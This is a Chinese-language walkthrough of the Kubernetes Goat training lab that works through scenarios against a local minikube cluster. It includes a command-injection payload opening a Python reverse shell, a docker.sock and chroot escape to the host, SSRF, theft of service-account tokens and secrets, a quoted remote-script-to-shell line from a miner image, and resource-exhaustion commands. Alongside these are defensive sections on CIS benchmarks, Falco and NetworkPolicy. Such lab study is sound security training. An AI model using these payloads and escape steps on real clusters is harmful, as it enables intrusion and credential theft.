# kubernetes-goat

## 简介

Kubernetes Goat 是一个交互式 Kubernetes 安全学习游乐场。它在设计场景中故意易受攻击，以展示 Kubernetes 集群、容器和云原生环境中的常见错误配置、现实漏洞和安全问题。

Kubernetes Goat 有 20 多个场景，涵盖攻击、防御、最佳实践、工具等，包括：

- 代码库中敏感密钥
- Docker-in-Docker的漏洞利用
- Kubernetes (K8S) 中的 SSRF
- 容器逃逸到主系统
- Docker CIS 基准分析
- Kubernetes CIS 基准分析
- 攻击私有仓库
- NodePort 暴露的服务
- Helm v2 tiller 攻击集群（已废弃）
- 分析加密矿工容器
- Kubernetes 命名空间绕过
- 获取环境信息
- 拒绝服务（DoS）内存/CPU资源
- 黑客容器预览
- 隐藏在层中
- RBAC 最低特权配置错误
- KubeAudit - 审核Kubernetes集群
- Falco - 运行时安全监测和检测
- Popeye - Kubernetes集群清理工具
- 使用 NSP 保护网络边界

## 安装

> 需要先安装minikube，参考[这里](https://icybersec.gitbook.io/cybersecuritynote-cn/yun-wei-pei-zhi/kubernetes/an-zhuang-bu-shu)安装

### helm

安装helm

```sh
root@l-virtual-machine:~# curl https://raw.githubusercontent.com/helm/helm/main/scripts/get-helm-3 | bash
```

验证helm是否安装完成。

```sh
root@l-virtual-machine:~# helm version
version.BuildInfo{Version:"v3.11.0", GitCommit:"472c5736ab01133de504a826bd9ee12cbe4e7904", GitTreeState:"clean", GoVersion:"go1.18.10"}
```


### Kubernetes Goat

安装socat，用于端口转发

```
apt install -y socat
```

下载kubernetes-goat仓库

```
git clone https://github.com/madhuakula/kubernetes-goat.git
```

进入kubernetes-goat目录

```
cd kubernetes-goat
```

修改`scenarios/internal-proxy/deployment.yaml`中CPU和内存值为300M。

```
spec:
  selector:
    matchLabels:
      app: internal-proxy
  template:
    metadata:
      labels:
        app: internal-proxy
    spec:
      containers:
      - name: internal-api
        image: madhuakula/k8s-goat-internal-api
        resources:
          limits:
            cpu: 300m
            memory: 300Mi
          requests:
            cpu: 300m
            memory: 300Mi
        ports:
```

运行kubernetes-goat的K8S服务

```sh
$ bash setup-kubernetes-goat.sh
```

运行脚本，启动应用服务的端口转发。

```sh
$ bash access-kubernetes-goat.sh
```

访问1234端口，就可以看到全部的场景信息。



## 代码库敏感密钥

开发人员倾向于将敏感信息提交给版本控制系统。当我们转向 CI/CD 和 GitOps 系统时，我们往往会忘记识别代码和提交中的敏感信息。让我们看看能不能在这里找到一些很酷的东西！

访问1230端口。



使用gobuster爆破目录，找到`/.git/HEAD`

```
┌──(root㉿kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirb/common.txt -t 30 -u http://192.168.32.130:1230
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.130:1230
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/ping                 (Status: 200) [Size: 4] 
```

使用`git-dumper`下载源码

```sh
$ git clone https://github.com/arthaud/git-dumper
```

```bash
$ cd git-dumper
$ python3 git_dumper.py http://192.168.32.130:1230/.git  k8s-goat-git
[-] Testing http://192.168.32.130:1230/.git/HEAD [200]
[-] Testing http://192.168.32.130:1230/.git/ [404]
[-] Fetching common files
[-] Fetching http://192.168.32.130:1230/.gitignore [404]
[-] http://192.168.32.130:1230/.gitignore responded with status code 404
[-] Fetching http://192.168.32.130:1230/.git/COMMIT_EDITMSG [200]
[-] Fetching http://192.168.32.130:1230/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://192.168.32.130:1230/.git/hooks/post-commit.sample [404]
[-] http://192.168.32.130:1230/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://192.168.32.130:1230/.git/hooks/post-receive.sample [404]
[-] Fetching http://192.168.32.130:1230/.git/hooks/post-update.sample [200]
[-] http://192.168.32.130:1230/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://192.168.32.130:1230/.git/hooks/pre-rebase.sample [200]
```

查看日志和以前的提交历史来验证 git 历史和信息

```sh
$ cd k8s-goat-git
$ git log
```



查看`d7c173ad183c574109cd5c4c648ffe551755b576`commit

```sh
$ git checkout d7c173ad183c574109cd5c4c648ffe551755b576
Note: switching to 'd7c173ad183c574109cd5c4c648ffe551755b576'.
```

查看目录，找到`.env`文件，发现AWS密钥



## Docker-in-Docker的漏洞利用

根据提示，访问1231端口


这是一个命令注入漏洞的页面



配置反弹shell

```
127.0.0.1;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



切换交互式终端

```
# python  -c "import pty;pty.spawn('/bin/bash')"
root@health-check-deployment-fbc7964bc-5l6sx:/# 
```

运行linepeas枚举系统

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

找到docker sock接口



查看版本



下载docker二进制版本

```
wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

解压

```
tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

使用docker调用sock

```
/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```



> docker提权到宿主机
>
> ```
> /tmp/docker/docker -H unix:///custom/docker/docker.sock run -v /:/mnt -it alpine  sh
> ```


## Kubernetes (K8S) 中的 SSRF

修改`scenarios/internal-proxy/deployment.yaml`文件应用的内存和CPU值

```
    spec:
      containers:
      - name: internal-api
        image: madhuakula/k8s-goat-internal-api
        resources:
          limits:
            cpu: 300m
            memory: 400Mi
          requests:
            cpu: 300m
            memory: 400Mi
```

访问`http://127.0.0.1:5000`，告诉你访问`http://metadata-db`会有更多的信息。



访问`http://metadata-db`会访问`latest`路径



最后`http://metadata-db/latest/secrets/kubernetes-goat`会得到一个base64值


```bash
$ echo 'azhzLWdvYXQtY2E5MGVmODVkYjdhNWFlZjAxOThkMDJmYjBkZjljYWI=' |base64 -d 
k8s-goat-ca90ef85db7a5aef0198d02fb0df9cab
```

## 容器逃逸到主系统

访问1233端口



打印当前系统的进程的 capabilities 状态。capabilities 是指给予进程的特权，用于控制它可以执行哪些操作。

```
root@l-virtual-machine:/# capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

mount查看挂载，发现`host-system`目录是挂载了宿主机的根目录



查看`/host-system`



将当前系统的根目录更改为 "/host-system"。这意味着系统将认为 "/host-system" 是根目录，并且所有的相对路径都是从 "/host-system" 开始的。执行 "chroot /host-system bash" 后，您将进入到一个以 "/host-system" 为根目录的新环境，并且可以在其中运行 bash。

```
chroot /host-system bash
```

执行`docker ps`



使用kubectl获取pods信息



## Docker CIS 基线分析

运行服务

```
kubectl apply -f scenarios/docker-bench-security/deployment.yaml
```

运行容器应用

```
root@l-virtual-machine:/opt/kubernetes-goat# kubectl get pods
NAME                                               READY   STATUS              RESTARTS   AGE
batch-check-job-t6mnv                              0/1     Completed           0          6d20h
build-code-deployment-7d8969f879-hf88j             1/1     Running             2          6d20h
docker-bench-security-6npjf                        0/1     ContainerCreating   0          61s
health-check-deployment-fbc7964bc-5l6sx            1/1     Running             2          6d20h
hidden-in-layers-9tld6                             1/1     Running             0          136m
internal-proxy-deployment-5489c8b584-72mhp         2/2     Running             0          123m
kubernetes-goat-home-deployment-655d88c69f-lzb9s   1/1     Running             2          6d20h
metadata-db-86d59569fc-nbtx2                       1/1     Running             2          6d20h
poor-registry-deployment-597b9fb599-tfdzq          1/1     Running             2          6d20h
system-monitor-deployment-5678ccfbc9-tqxsb         1/1     Running             2          6d20h
```

```
kubectl exec -it docker-bench-security-6npjf  -- sh
```

执行docker CIS基线分析脚本

```
~ # cd docker-bench-security/
~/docker-bench-security # bash docker-bench-security.sh
```



## K8S CIS基线分析

运行服务

```
kubectl apply -f scenarios/kube-bench-security/node-job.yaml
kubectl apply -f scenarios/kube-bench-security/master-job.yaml
```

它是一个检测任务

```
root@l-virtual-machine:~# kubectl get jobs
NAME                COMPLETIONS   DURATION   AGE
batch-check-job     1/1           37s        6d20h
hidden-in-layers    0/1           160m       160m
kube-bench-master   1/1           4m33s      22m
kube-bench-node     1/1           4m34s      22m
```

查看日志，可以看到K8S基线情况。



## 攻击私有仓库

访问：http://192.168.32.130:1235/v2/_catalog，查看docker仓库信息



访问：`http://192.168.32.130:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest`，获取`madhuakula/k8s-goat-users-repo`镜像信息



查看环境变量，找到API_KEY。



## NodePort 暴露的服务

按照提示进行端口扫描，发现30003端口开启。

```
root@l-virtual-machine:~# nmap 192.168.32.130 -sT -p30000-32767
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-06 15:08 CST
Nmap scan report for control-plane.minikube.internal (192.168.32.130)
Host is up (0.00015s latency).
Not shown: 2766 closed ports
PORT      STATE SERVICE
30003/tcp open  amicon-fpsu-ra
```

访问30003端口



## 分析加密矿工容器

查看工作任务详情

```
root@l-virtual-machine:~# kubectl describe job batch-check-job

Name:           batch-check-job
Namespace:      default
Selector:       controller-uid=f296d44b-82ec-43d1-ae00-1fff33961e59
Labels:         controller-uid=f296d44b-82ec-43d1-ae00-1fff33961e59
                job-name=batch-check-job
Annotations:    <none>
Parallelism:    1
Completions:    1
Start Time:     Mon, 30 Jan 2023 17:41:18 +0800
Completed At:   Mon, 30 Jan 2023 17:41:55 +0800
Duration:       37s
Pods Statuses:  0 Active / 1 Succeeded / 0 Failed
Pod Template:
  Labels:  controller-uid=f296d44b-82ec-43d1-ae00-1fff33961e59
           job-name=batch-check-job
  Containers:
   batch-check:
    Image:        madhuakula/k8s-goat-batch-check
    Port:         <none>
    Host Port:    <none>
    Environment:  <none>
    Mounts:       <none>
  Volumes:        <none>
Events:           <none>
```

然后通过运行以下命令获取 pod 信息，该命令展示了标签和选择器匹配的 pod

```
root@l-virtual-machine:~# kubectl get pods --namespace default -l "job-name=batch-check-job"
NAME                    READY   STATUS      RESTARTS   AGE
batch-check-job-t6mnv   0/1     Completed   0          6d21h
```

查看pod的yaml文件，我们可以看到这个作业 pod 正在运行 `madhuakula/k8s-goat-batch-check` docker 容器镜像

```
root@l-virtual-machine:~# kubectl get pod batch-check-job-t6mnv -o yaml    
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: "2023-01-30T09:41:18Z"
  generateName: batch-check-job-
  labels:
    controller-uid: f296d44b-82ec-43d1-ae00-1fff33961e59
    job-name: batch-check-job
  name: batch-check-job-t6mnv
  namespace: default
  ownerReferences:
  - apiVersion: batch/v1
    blockOwnerDeletion: true
    controller: true
    kind: Job
    name: batch-check-job
    uid: f296d44b-82ec-43d1-ae00-1fff33961e59
  resourceVersion: "627"
  selfLink: /api/v1/namespaces/default/pods/batch-check-job-t6mnv
  uid: 51018d04-0b46-448a-b329-03ff0d036981
spec:
  containers:
  - image: madhuakula/k8s-goat-batch-check
    imagePullPolicy: Always
    name: batch-check
    resources: {}
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: default-token-7bvsp
      readOnly: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  nodeName: l-virtual-machine
  priority: 0
  restartPolicy: Never
  schedulerName: default-scheduler
  securityContext: {}
  serviceAccount: default
  serviceAccountName: default
  terminationGracePeriodSeconds: 30
  tolerations:
  - effect: NoExecute
    key: node.kubernetes.io/not-ready
    operator: Exists
    tolerationSeconds: 300
  - effect: NoExecute
    key: node.kubernetes.io/unreachable
    operator: Exists
    tolerationSeconds: 300
  volumes:
  - name: default-token-7bvsp
    secret:
      defaultMode: 420
      secretName: default-token-7bvsp
status:
  conditions:
  - lastProbeTime: null
    lastTransitionTime: "2023-01-30T09:41:18Z"
    reason: PodCompleted
    status: "True"
    type: Initialized
  - lastProbeTime: null
    lastTransitionTime: "2023-01-30T09:41:18Z"
    reason: PodCompleted
    status: "False"
    type: Ready
  - lastProbeTime: null
    lastTransitionTime: "2023-01-30T09:41:18Z"
    reason: PodCompleted
    status: "False"
    type: ContainersReady
  - lastProbeTime: null
    lastTransitionTime: "2023-01-30T09:41:18Z"
    status: "True"
    type: PodScheduled
  containerStatuses:
  - containerID: docker://d82f62ef538eccab1b687360a459bc5d59fd3eff4b62bee614b12642834c2ff4
    image: madhuakula/k8s-goat-batch-check:latest
    imageID: docker-pullable://madhuakula/k8s-goat-batch-check@sha256:5be381d47c086a0b74bbcdefa5f3ba0ebb78c8acbd2c07005346b5ff687658ef
    lastState: {}
    name: batch-check
    ready: false
    restartCount: 0
    started: false
    state:
      terminated:
        containerID: docker://d82f62ef538eccab1b687360a459bc5d59fd3eff4b62bee614b12642834c2ff4
        exitCode: 0
        finishedAt: "2023-01-30T09:41:55Z"
        reason: Completed
        startedAt: "2023-01-30T09:41:55Z"
  hostIP: 192.168.32.130
  phase: Succeeded
  podIP: 172.17.0.4
  podIPs:
  - ip: 172.17.0.4
  qosClass: BestEffort
  startTime: "2023-01-30T09:41:18Z"
```

在这里我们可以看到它包含一个在构建时在其中一层中执行外部脚本的命令

```
root@l-virtual-machine:~# docker history --no-trunc madhuakula/k8s-goat-batch-check
IMAGE                                                                     CREATED         CREATED BY                                                                                                                                                                                                                                                                                 SIZE      COMMENT
sha256:cb43bcb572b74468336c6854282c538e9ac7f2efc294aa3e49ce34fab7a275c7   8 months ago    CMD ["ps" "auxx"]                                                                                                                                                                                                                                                                          0B        buildkit.dockerfile.v0
<missing>                                                                 8 months ago    RUN /bin/sh -c apk add --no-cache htop curl ca-certificates    && echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup     && chmod +x /usr/bin/system-startup     && rm -rf /tmp/* # buildkit   2.96MB    buildkit.dockerfile.v0
<missing>                                                                 8 months ago    LABEL MAINTAINER=Madhu Akula INFO=Kubernetes Goat                                                                                                                                                                                                                                          0B        buildkit.dockerfile.v0
<missing>                                                                 10 months ago   /bin/sh -c #(nop)  CMD ["/bin/sh"]                                                                                                                                                                                                                                                         0B        
<missing>                                                                 10 months ago   /bin/sh -c #(nop) ADD file:5d673d25da3a14ce1f6cf66e4c7fd4f4b85a3759a9d93efb3fd9ff852b5b56e4 in /                                                                                                                                                                                           5.57MB    
```

```
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup     && chmod +x /usr/bin/system-startup     && rm -rf /tmp/*
```

## Kubernetes 命名空间绕过

默认情况下，Kubernetes 使用平面网络架构，这意味着集群中的任何 pod/服务都可以与其他人通信。默认情况下，集群中的命名空间没有任何网络安全限制。

运行`hacker-container`镜像。

```
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

查看网络IP。



查看redis端口

```
~ # nmap -sT -open -p 6379 172.17.0.0/16  
Starting Nmap 7.91 ( https://nmap.org ) at 2023-02-06 07:35 UTC
Nmap scan report for 172-17-0-9.cache-store-service.secure-middleware.svc.cluster.local (172.17.0.9)
Host is up (0.000060s latency).

PORT     STATE SERVICE
6379/tcp open  redis
MAC Address: 02:42:AC:11:00:09 (Unknown)
```

连接redis



## 获取环境信息

访问1233端口



输入`printenv`，获取环境信息

```
root@l-virtual-machine:/# printenv
LS_COLORS=
POOR_REGISTRY_SERVICE_PORT_5000_TCP_PORT=5000
METADATA_DB_SERVICE_PORT=80
INTERNAL_PROXY_INFO_APP_SERVICE_PORT_5000_TCP_ADDR=10.109.244.245
SYSTEM_MONITOR_SERVICE_PORT=tcp://10.100.194.17:8080
BUILD_CODE_SERVICE_SERVICE_PORT=3000
HOSTNAME=l-virtual-machine
BUILD_CODE_SERVICE_SERVICE_HOST=10.97.181.240
POOR_REGISTRY_SERVICE_PORT_5000_TCP_PROTO=tcp
METADATA_DB_SERVICE_PORT_HTTP=80
INTERNAL_PROXY_API_SERVICE_PORT_3000_TCP=tcp://10.96.130.221:3000
METADATA_DB_SERVICE_HOST=10.96.0.140
KUBERNETES_GOAT_HOME_SERVICE_SERVICE_PORT=80
HEALTH_CHECK_SERVICE_PORT_80_TCP_PROTO=tcp
BUILD_CODE_SERVICE_PORT_3000_TCP_PROTO=tcp
INTERNAL_PROXY_INFO_APP_SERVICE_PORT=tcp://10.109.244.245:5000
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
INTERNAL_PROXY_INFO_APP_SERVICE_PORT_5000_TCP_PORT=5000
SYSTEM_MONITOR_SERVICE_SERVICE_HOST=10.100.194.17
POOR_REGISTRY_SERVICE_PORT_5000_TCP_ADDR=10.101.33.162
INTERNAL_PROXY_API_SERVICE_SERVICE_PORT=3000
KUBERNETES_PORT=tcp://10.96.0.1:443
PWD=/
METADATA_DB_PORT_80_TCP_ADDR=10.96.0.140
HOME=/root
SYSTEM_MONITOR_SERVICE_PORT_8080_TCP=tcp://10.100.194.17:8080
K8S_GOAT_VAULT_KEY=k8s-goat-cd2da27224591da2b48ef83826a8a6c3
SYSTEM_MONITOR_SERVICE_PORT_8080_TCP_ADDR=10.100.194.17
INTERNAL_PROXY_API_SERVICE_PORT_3000_TCP_PORT=3000
INTERNAL_PROXY_API_SERVICE_PORT_3000_TCP_ADDR=10.96.130.221
HEALTH_CHECK_SERVICE_SERVICE_HOST=10.108.6.124
KUBERNETES_SERVICE_PORT_HTTPS=443
POOR_REGISTRY_SERVICE_SERVICE_PORT=5000
KUBERNETES_GOAT_HOME_SERVICE_SERVICE_HOST=10.108.159.179
KUBERNETES_PORT_443_TCP_PORT=443
HEALTH_CHECK_SERVICE_SERVICE_PORT=80
KUBERNETES_GOAT_HOME_SERVICE_PORT_80_TCP=tcp://10.108.159.179:80
POOR_REGISTRY_SERVICE_SERVICE_HOST=10.101.33.162
INTERNAL_PROXY_INFO_APP_SERVICE_PORT_5000_TCP=tcp://10.109.244.245:5000
BUILD_CODE_SERVICE_PORT_3000_TCP_PORT=3000
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
METADATA_DB_PORT=tcp://10.96.0.140:80
INTERNAL_PROXY_API_SERVICE_SERVICE_HOST=10.96.130.221
KUBERNETES_GOAT_HOME_SERVICE_PORT_80_TCP_PORT=80
INTERNAL_PROXY_API_SERVICE_PORT=tcp://10.96.130.221:3000
INTERNAL_PROXY_INFO_APP_SERVICE_SERVICE_HOST=10.109.244.245
KUBERNETES_GOAT_HOME_SERVICE_PORT=tcp://10.108.159.179:80
SYSTEM_MONITOR_SERVICE_PORT_8080_TCP_PORT=8080
BUILD_CODE_SERVICE_PORT=tcp://10.97.181.240:3000
SYSTEM_MONITOR_SERVICE_SERVICE_PORT=8080
METADATA_DB_PORT_80_TCP_PORT=80
POOR_REGISTRY_SERVICE_PORT=tcp://10.101.33.162:5000
INTERNAL_PROXY_INFO_APP_SERVICE_SERVICE_PORT=5000
INTERNAL_PROXY_INFO_APP_SERVICE_PORT_5000_TCP_PROTO=tcp
BUILD_CODE_SERVICE_PORT_3000_TCP=tcp://10.97.181.240:3000
SHLVL=1
KUBERNETES_SERVICE_PORT=443
SYSTEM_MONITOR_SERVICE_PORT_8080_TCP_PROTO=tcp
METADATA_DB_PORT_80_TCP=tcp://10.96.0.140:80
HEALTH_CHECK_SERVICE_PORT=tcp://10.108.6.124:80
KUBERNETES_GOAT_HOME_SERVICE_PORT_80_TCP_ADDR=10.108.159.179
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HEALTH_CHECK_SERVICE_PORT_80_TCP_PORT=80
INTERNAL_PROXY_API_SERVICE_PORT_3000_TCP_PROTO=tcp
HEALTH_CHECK_SERVICE_PORT_80_TCP=tcp://10.108.6.124:80
BUILD_CODE_SERVICE_PORT_3000_TCP_ADDR=10.97.181.240
HEALTH_CHECK_SERVICE_PORT_80_TCP_ADDR=10.108.6.124
KUBERNETES_SERVICE_HOST=10.96.0.1
POOR_REGISTRY_SERVICE_PORT_5000_TCP=tcp://10.101.33.162:5000
KUBERNETES_GOAT_HOME_SERVICE_PORT_80_TCP_PROTO=tcp
METADATA_DB_PORT_80_TCP_PROTO=tcp
_=/usr/bin/printenv
```

## 拒绝服务（DoS）内存/CPU资源

访问1236端口



我们可以使用像 stress-ng 这样的简单实用程序来执行压力测试，比如访问更多资源。下面的命令是访问比指定更多的资源

```
stress-ng --vm 2 --vm-bytes 2G --timeout 30s
```

您可以看到正常资源消耗与运行 stress-ng 时的区别，后者消耗的资源比预期消耗的要多

> 需要安装`metrics`
>
> ```
> wget https://github.com/kubernetes-sigs/metrics-server/releases/latest/download/components.yaml -O metrics-server-components.yaml
> sed -i 's/k8s.gcr.io\/metrics-server/registry.cn-hangzhou.aliyuncs.com\/google_containers/g' metrics-server-components.yaml
> kubectl apply -f metrics-server-components.yaml 
> ```
>
> x509: cannot validate certificate 的解决方案：
> https://ssoor.github.io/2020/03/25/k8s-metrics-server-error-1/

原始阶段

```
root@l-virtual-machine:/tmp# kubectl --namespace big-monolith top pod hunger-check-deployment-5d94d56fdb-pb6jp
NAME                                       CPU(cores)   MEMORY(bytes)   
hunger-check-deployment-5d94d56fdb-pb6jp   126m         4Mi   
```

压测过程中

```
root@l-virtual-machine:/tmp# kubectl --namespace big-monolith top pod hunger-check-deployment-5d94d56fdb-pb6jp
NAME                                       CPU(cores)   MEMORY(bytes)   
hunger-check-deployment-5d94d56fdb-pb6jp   354m         2059Mi 
```


## 黑客容器预览

进入黑客容器

```
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

我们可以使用像 amicontained 这样简单而强大的实用程序来执行容器内省并获得系统功能的概述等。

```
bash-5.1# amicontained
Container Runtime: kube
Has Namespaces:
        pid: true
        user: false
AppArmor Profile: docker-default (enforce)
Capabilities:
        BOUNDING -> chown dac_override fowner fsetid kill setgid setuid setpcap net_bind_service net_raw sys_chroot mknod audit_write setfcap
Seccomp: disabled
Blocked Syscalls (22):
        MSGRCV SYSLOG SETSID VHANGUP PIVOT_ROOT ACCT SETTIMEOFDAY SWAPON SWAPOFF REBOOT SETHOSTNAME SETDOMAINNAME INIT_MODULE DELETE_MODULE KEXEC_LOAD PERF_EVENT_OPEN FANOTIFY_INIT OPEN_BY_HANDLE_AT FINIT_MODULE KEXEC_FILE_LOAD BPF USERFAULTFD
Looking for Docker.sock
```

扫描

```
nikto.pl -host http://metadata-db
```




## 隐藏在层中

查看`madhuakula/k8s-goat-hidden-in-layers`镜像信息

```
docker inspect madhuakula/k8s-goat-hidden-in-layers
```

查看构建历史，找到secret.txt

```
docker history --no-trunc madhuakula/k8s-goat-hidden-in-layers
```



我们可以通过利用 docker 内置命令将 docker 镜像导出为 tar 文件来恢复 `/root/secret.txt`

```
docker save madhuakula/k8s-goat-hidden-in-layers -o hidden-in-layers.tar
```

解压`hidden-in-layers.tar`

```
root@l-virtual-machine:/tmp# tar xvf hidden-in-layers.tar
66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535/
66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535/VERSION
66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535/json
66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535/layer.tar
79cf3b8a6b51ac05a78de2a347855d9be39bb7300a6df1a1094cdab616745f78/
79cf3b8a6b51ac05a78de2a347855d9be39bb7300a6df1a1094cdab616745f78/VERSION
79cf3b8a6b51ac05a78de2a347855d9be39bb7300a6df1a1094cdab616745f78/json
79cf3b8a6b51ac05a78de2a347855d9be39bb7300a6df1a1094cdab616745f78/layer.tar
8944f45111dbbaa72ab62c924b0ae86f05a2e6d5dcf8ae2cc75561773bd68607.json
c8e3854bdc614a630d638b7cb682ed66c824e25b5c7a37cf14c63db658b99723/
c8e3854bdc614a630d638b7cb682ed66c824e25b5c7a37cf14c63db658b99723/VERSION
c8e3854bdc614a630d638b7cb682ed66c824e25b5c7a37cf14c63db658b99723/json
c8e3854bdc614a630d638b7cb682ed66c824e25b5c7a37cf14c63db658b99723/layer.tar
manifest.json
repositories
```

使用dive分析镜像

> https://github.com/wagoodman/dive/releases

```
dive madhuakula/k8s-goat-hidden-in-layers
```



进入layer层

```
cd 66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535/
```

获取secret.txt

```sh
root@l-virtual-machine:/tmp/66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535# ls
json  layer.tar  VERSION

root@l-virtual-machine:/tmp/66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535# tar xvf layer.tar 
root/
root/secret.txt

root@l-virtual-machine:/tmp/66ca4cc4d8d51d6865d9107fc34462e80cf7cf01a3c4f8989ac794dfe95df535# cat root/secret.txt 
k8s-goat-3b7a7dc7f51f4014ddf3446c25f8b772
```

## RBAC 最低特权配置错误

访问1236端口



默认情况下，Kubernetes 将所有令牌和服务帐户信息存储在默认位置



要指向内部 API 服务器主机名，我们可以从环境变量中导出它

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

设置 ServiceAccount 令牌的路径

```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

设置命名空间值

```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

读取 ServiceAccount token

```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

指向 ca.crt 路径，以便我们可以在 curl 请求中查询时使用它

```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

现在我们可以使用令牌和构造的查询来探索 Kubernetes API

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```



要查询默认命名空间中的可用机密，请运行以下命令

> 没有权限查看默认命名空间

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```



查询特定于命名空间的秘密

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```



从secrets中获取k8svaulapikey值

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```



## KubeAudit - 审核Kubernetes集群

kubeaudit 是一个命令行工具和一个 Go 包，用于审计 Kubernetes 集群的各种安全问题。

要开始使用此方案，您可以运行以下命令以使用集群管理员权限启动黑客容器

```
kubectl run -n kube-system  --rm --restart=Never -it --image=madhuakula/hacker-container -- bash
```

下载kubeaudit

```
wget https://github.com/Shopify/kubeaudit/releases/download/v0.21.0/kubeaudit_0.21.0_linux_amd64.tar.gz
```

执行审计

```
kubeaudit all
```



## Falco - 运行时安全监测和检测

部署 Falco

```
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
helm install falco falcosecurity/falco
```

运行镜像，里面执行`cat /etc/shadow`

```
kubectl run --rm --restart=Never -it --image=madhuakula/hacker-container -- bash
```

一会后，查看falco日志，可以监控到执行查看shadow命令。



## Popeye - Kubernetes集群清理工具

运行镜像

```
kubectl run --rm --restart=Never -it --image=madhuakula/hacker-container -- bash
```


## 使用 NSP 保护网络边界

启动web镜像

```
kubectl run --image=nginx website --labels app=website --expose --port 80
```

启动终端

```
kubectl run temp -it --rm --image=alpine /bin/sh
```



创建一个网络策略并将其应用于 Kubernetes 集群以阻止/拒绝任何请求。



```
kind: NetworkPolicy
apiVersion: networking.k8s.io/v1
metadata:
  name: website-deny
spec:
  podSelector:
    matchLabels:
      app: website
  ingress: []
```



让我们通过运行以下命令将此 NSP 策略部署到集群：

```
kubectl apply -f website-deny.yaml
```

